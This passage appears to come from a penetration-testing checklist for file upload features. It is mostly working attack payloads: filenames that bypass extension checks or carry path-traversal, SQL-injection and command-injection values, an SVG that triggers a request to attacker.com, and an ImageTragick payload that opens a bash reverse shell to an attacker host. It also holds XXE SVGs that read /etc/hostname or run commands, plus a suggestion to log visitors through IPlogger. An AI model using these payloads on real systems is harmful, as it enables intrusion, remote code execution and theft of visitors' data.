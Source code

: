         - `file.php%0d%0a.jpg`
        - `file.php.....`
        - `file.php/`
        - `file.php.\`
        - `file.php#.png`
        - `file.`
        - `.html`
    - Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```
